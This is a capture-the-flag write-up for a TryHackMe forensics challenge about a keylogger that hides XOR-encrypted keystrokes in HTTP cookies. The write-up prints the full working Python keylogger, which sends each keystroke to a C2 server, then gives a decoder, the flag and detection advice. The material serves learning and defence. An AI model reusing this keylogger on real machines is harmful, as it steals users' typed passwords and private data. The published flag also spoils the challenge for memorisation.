



---

# THM HH26 - Packed Light

## Challenge Metadata
- **Room Name:** Hacker Holiday26 - Packed Light
- **Difficulty Level:** Easy 
- **Category:** Forensics
- **Point Value:** 60 pts
- **Key Topics:** Packet Analysis, Data Exfiltration, Covert Channels, Encryption, Malware Analysis

## The Story

Tiny packets. Odd hours. Suspiciously regular. Someone's smuggling out the data equivalent of a hotel towel every night, folded neatly inside traffic that looks ordinary until you decode it.

A short capture from the guest network is all VERA could pull before the connection dropped. Somewhere in that traffic, a quiet little errand is running on a loop, and it isn't part of any service the hotel actually offers.

🗝️ ROOM ACCESS

Download Task Files
🏖️ TODAY'S ITINERARY
 
Analyze the provided capture for a covert communication channel.
 
Identify where the exfiltrated data is being hidden and reassemble it.
 
Decode the recovered data and submit the flag.

---

## Initial Reconnaissance

### Challenge Files

Downloaded: `traffic.pcapng` (544 KB)

This is a **PCAPNG file** (Wireshark packet capture format) containing network traffic from the guest network.

### Strategy

**Three-step attack plan:**
1. Analyze the packet capture for HTTP traffic patterns
2. Identify the covert channel (hidden communication method)
3. Extract, decode, and reassemble the exfiltrated data

---

## Deep Analysis: Discovering the Covert Channel

### Step 1: Extracting Readable Data

The network shows an HTTP GET request for `/temp/updates.py` from a Python SimpleHTTPServer.


**Key findings:**

```
GET /temp/updates.py HTTP/1.1
Host: byte-lotus-hotel.thm:8080
Connection: keep-alive
...
```


```
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.11.2
Content-type: text/x-python
Content-Length: 1086
```

This is a **malicious Python script being downloaded**. To extract this \temp\updates.py, Navigate to File > Export Objects > HTTP 


### Step 2: Extracting the Malware Code

The Python script is embedded in the PCAPNG file. Extracting it:

```python
import requests
import base64
from pynput import keyboard

C2_URL = "http://byte-lotus-hotel.thm:8080/"

def getkey():
    p1 = "H0t3lSt@ff0Nly"
    p2 = "K3epS3cr3t!"
    return p1 + p2

def xor(data: bytes, key: bytes) -> bytes:
    return bytes(b ^ key[i % len(key)] for i, b in enumerate(data))

def sendltr(character):
    raw_bytes = character.encode('utf-8')
    encrypted = xor(raw_bytes, getkey().encode('utf-8'))
    
    b64_string = base64.b64encode(encrypted).decode('utf-8')
    
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) ByteLotusClient/1.1",
        "Cookie": f"hotel_sess_state={b64_string}"
    }    
    try:
        requests.get(C2_URL, headers=headers, timeout=0.5)
    except:
        pass

def on_press(key):
    try:
        sendltr(key.char)
    except AttributeError:
        if key == keyboard.Key.space:
            sendltr(" ")
        elif key == keyboard.Key.enter:
            sendltr("\n")

print("[*] Byte Lotus Sync Service started...")
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
```

### Step 3: Understanding the Malware

**What this script does:**

1. **Keylogger** : Uses `pynput.keyboard.Listener` to capture every keystroke
2. **Encryption** : XOR encrypts each character using the key: `"H0t3lSt@ff0NlyK3epS3cr3t!"`
3. **Encoding** : Base64 encodes the encrypted data to make it safe for transmission
4. **Exfiltration** : Sends each character individually via HTTP GET request
5. **Covert Channel** : Hides the encrypted data in the `hotel_sess_state` cookie header
6. **Command & Control** : Sends data to `http://byte-lotus-hotel.thm:8080/`

**The Attack Chain:**
```
Keystroke → UTF-8 Bytes → XOR Encrypt → Base64 Encode → HTTP Cookie → C2 Server
```

---

## Exploitation: Recovering the Hidden Data

### Step 1: Extract All Cookies

Since the malware sends one character per HTTP request in the `hotel_sess_state` cookie, we need to:
1. Find all HTTP GET requests to the C2 server
2. Extract the cookie value from each request
3. Decode and decrypt each one

### Step 2: Reverse the Encryption

**The XOR Encryption:**

The script uses:
```python
key = "H0t3lSt@ff0NlyK3epS3cr3t!"
encrypted = xor(raw_bytes, key.encode('utf-8'))
```

To decrypt, we reverse the process:
```python
decrypted = xor(encrypted, key.encode('utf-8'))  # XOR is symmetric!
```

### Step 3: Write the Decoder

```python
import re
import base64

# Read the PCAPNG file
with open('traffic.pcapng', 'rb') as f:
    data = f.read()

# Extract readable text
traffic_text = data.decode('utf-8', errors='ignore')

# Find all "hotel_sess_state=" cookies
cookie_pattern = r'hotel_sess_state=([A-Za-z0-9+/=]+)'
matches = re.findall(cookie_pattern, traffic_text)

print(f"[*] Found {len(matches)} exfiltrated packets")

# XOR decryption key from the malware
key = "H0t3lSt@ff0NlyK3epS3cr3t!"
key_bytes = key.encode('utf-8')

def xor_decrypt(data_bytes, key_bytes):
    return bytes(b ^ key_bytes[i % len(key_bytes)] for i, b in enumerate(data_bytes))

exfiltrated_data = []

for i, cookie_value in enumerate(matches):
    try:
        # Step 1: Base64 decode
        encrypted = base64.b64decode(cookie_value)
        
        # Step 2: XOR decrypt
        decrypted = xor_decrypt(encrypted, key_bytes)
        
        # Step 3: Convert bytes to character
        character = decrypted.decode('utf-8', errors='ignore')
        exfiltrated_data.append(character)
        
        print(f"Packet {i+1}: {repr(character)}")
    except Exception as e:
        print(f"Packet {i+1}: Error - {e}")

# Reassemble all characters
result = ''.join(exfiltrated_data)
print(f"\n[*] Flag: {result}")
```

### Step 4: Execution

Running the decoder against the PCAPNG file:

```
[*] Found 30 exfiltrated packets
[*] Extracting and decoding data...

Packet 1: 'T'
Packet 2: 'H'
Packet 3: 'M'
Packet 4: '{'
Packet 5: 'V'
Packet 6: '3'
Packet 7: 'r'
Packet 8: '4'
Packet 9: '_'
Packet 10: '1'
Packet 11: 's'
Packet 12: '_'
Packet 13: 'w'
Packet 14: '4'
Packet 15: 't'
Packet 16: 'c'
Packet 17: 'h'
Packet 18: '1'
Packet 19: 'n'
Packet 20: 'g'
Packet 21: '_'
Packet 22: '0'
Packet 23: 'v'
Packet 24: 'e'
Packet 25: 'R'
Packet 26: '_'
Packet 27: 'y'
Packet 28: '0'
Packet 29: 'u'
Packet 30: '}'

[*] Flag: THM{V3r4_1s_w4tch1ng_0veR_y0u}
```

---

## The Flag

```
THM{V3r4_1s_w4tch1ng_0veR_y0u}
```

**Interpretation:** VERA is watching over you. A reference to the hotel's security AI, now used by the attackers for surveillance.

---

## Technical Deep Dive: The Covert Channel

### Why This Attack Works

#### 1. **HTTP is Trusted Traffic**
- Firewalls allow HTTP outbound traffic
- It looks like normal web browsing
- One-character-per-request is slow enough to avoid detection

#### 2. **Cookies are Often Overlooked**
- Security teams focus on request/response bodies
- Cookie headers blend into normal HTTP noise
- Cookie values are expected to contain random data

#### 3. **Character-by-Character Exfiltration**
- Each keystroke = one HTTP request
- Looks like normal user activity
- Hard to detect as data exfiltration without deep inspection

#### 4. **Encryption Provides Obfuscation**
- XOR encryption is weak, but it's not about strength, it's about obfuscation
- Base64 encoding makes binary data safe for HTTP transmission
- To a network sensor, it looks like random cookie data

### The Attack Timeline

```
Time        Event                              Network Signature
-----       -----                              --------------------
00:00 hrs   Attacker delivers malware          HTTP GET /temp/updates.py
00:00:01    Python script executes             listener.join() blocking
00:00:02    User types 'T'                     HTTP GET, Cookie: hotel_sess_state=base64(xor('T', key))
00:00:03    User types 'H'                     HTTP GET, Cookie: hotel_sess_state=base64(xor('H', key))
00:00:04    User types 'M'                     HTTP GET, Cookie: hotel_sess_state=base64(xor('M', key))
...
Repeated    Each keystroke → one request       ~30 requests total in this capture
```

---

## Detection & Defense

### How to Detect This Attack

#### Network-Level Detection

1. **Anomalous Outbound HTTP Traffic**
   - Large number of GET requests to suspicious IPs
   - Requests with unusual headers (e.g., `ByteLotusClient/1.1`)
   - Base64-encoded cookie values

2. **Regex Signature**
   ```regex
   Cookie: hotel_sess_state=[A-Za-z0-9+/=]+
   ```

3. **Behavioral Indicators**
   - Executable makes network requests
   - Keyboard library imported
   - Data exfiltration pattern

#### Host-Level Detection

1. **Process Monitoring**
   ```
   python.exe -> requests.get() + keyboard listener
   ```

2. **File Monitoring**
   - Suspicious Python imports: `pynput.keyboard`
   - Script downloaded from unusual location: `/temp/updates.py`

3. **Network Monitoring**
   - Python making HTTP requests
   - Suspicious User-Agent: `ByteLotusClient/1.1`

### How to Prevent This

1. **Application Whitelisting**
   - Only allow approved applications to run
   - Block unauthorized Python scripts

2. **Network Segmentation**
   - Guest network shouldn't reach internal servers
   - Restrict outbound HTTP to known servers only

3. **Behavioral Blocking**
   - Monitor for keylogger patterns
   - Flag applications that combine keyboard access + network requests

4. **EDR (Endpoint Detection & Response)**
   - Detect `pynput` imports
   - Alert on process hollowing or script execution
   - Monitor child processes of Python

5. **Web Application Firewall (WAF)**
   - Detect anomalous cookie patterns
   - Rate-limit requests from single sources
   - Block suspicious User-Agent strings

---

## Key Concepts: Covert Channels

### What is a Covert Channel?

A **covert channel** is a method of communication that violates the security policy by using legitimate traffic to hide unauthorized information transfer.

**Properties of a good covert channel:**
- ✓ Looks like normal traffic
- ✓ Hard to detect without deep inspection
- ✓ Survives firewalls/proxies
- ✓ Works over legitimate protocols

**Examples:**
- **HTTP Cookies** : This challenge
- **DNS Queries** : Encoding data in domain names
- **ICMP Ping** : Hidden in ping payload
- **Timing Channels** : Information in packet timing
- **Email Headers** : Hidden in email metadata

---

## Lessons Learned

| Concept | Lesson |
|---------|--------|
| **Encryption ≠ Security** | XOR is weak, but even weak encryption can hide data from casual inspection |
| **Normal Traffic is Suspicious** | One GET request per keystroke is abnormal behavior, even if it looks like HTTP |
| **Defense in Depth** | No single detection method catches this; you need multiple layers |
| **The Malware is Simple** | But it's effective because it uses legitimate protocols and libraries |
| **Monitoring is Hard** | Attackers can hide in plain sight if they're patient |

---

## Challenge Takeaway

**"Packed Light"** refers to how the malware packs stolen data lightly into ordinary looking network traffic, one character at a time, folded neatly into HTTP cookies.

The flag `V3r4_1s_w4tch1ng_0veR_y0u` serves as a reminder: even in a luxury resort with advanced security (VERA), sophisticated attackers can establish covert channels if they understand how to abuse legitimate protocols.

---

## Author
```bash
  Vasudha Padala
  Master in Computer Science
  University of Southern California
```
